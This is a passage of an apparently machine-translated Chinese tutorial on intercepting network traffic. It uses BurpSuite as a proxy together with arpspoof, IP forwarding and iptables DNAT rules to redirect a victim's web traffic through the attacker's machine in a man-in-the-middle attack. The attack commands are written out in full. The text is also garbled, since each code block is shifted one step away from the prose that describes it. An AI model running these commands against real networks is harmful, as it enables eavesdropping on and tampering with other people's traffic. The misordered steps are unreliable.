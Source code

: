 现在，BurpSuite 已经准备好展示当它被定义为代理时，如何拦截通过它的流量。在 BurpSuite 上，点击代理选项卡，然后点击拦截子选项卡，确保拦截处于打开状态，并从 firefox 浏览器访问任何网站。

浏览器和被访问网站之间的请求将通过 Burpsuite，允许您像中间人攻击一样修改数据包。

![modify the packets](img/e701d8c8cf42061732f0945f8cd17f03.png)

此外，您可以使用 DNS 和不可见代理功能来捕获来自我们无法配置代理的系统的流量。

在基于 Debian 和 Linux 的系统上，要开始运行 Arpspoof，你可以通过 apt install dsniff 来安装。安装 arpspoof 后，要在控制台上捕获从目标到路由器的数据包，请运行:

然后捕获从路由器到目标运行的第二个终端中的数据包:

```
sudo arpspoof -i <Interface-Device> -t <Target-IP> <Router-IP>
```

然后启用 IP 转发以防止阻止受害者:

```
sudo arpspoof -i <Interface-Device> -t  <Router-IP> <Target-IP>
```

接下来，通过运行以下命令，使用 iptables 将端口 80 和 443 的所有流量重定向到您的设备:

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

请注意，您应该以 [root](https://blog.eldernode.com/initial-setup-with-debian-10/) 的身份运行 BurpSuite，否则一些步骤(如在特定端口上启用新代理)将不起作用:

```
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination  192.168.43.38  # sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination  192.168.43.38
```
